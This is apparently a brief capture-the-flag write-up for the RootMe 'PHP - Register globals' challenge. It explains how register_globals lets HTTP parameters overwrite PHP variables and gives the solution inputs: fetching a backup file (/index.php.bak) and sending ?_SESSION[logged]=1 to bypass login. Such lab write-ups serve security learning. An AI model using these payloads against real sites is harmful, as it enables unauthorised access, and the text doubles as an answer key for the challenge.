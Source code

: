 # PHP Register globals

[RootMe challenge: PHP - Register globals](https://www.root-me.org/en/Challenges/Web-Server/PHP-register-globals): It seems that the developer often leaves backup files lying around ...

----

`register_globals`: In PHP < 4.1.1.1 or if misconfigured, `register_globals` may be active (or their behaviour is being mimicked). This implies that in global variables like `$_GET` if they have a value e.g. `$_GET["param"]="1234"`, you can access it via `$param`. Therefore, by sending HTTP parameters you can overwrite variables that are used within the code.

```text
/index.php.bak
```

and:

```text
?_SESSION[logged]=1
```
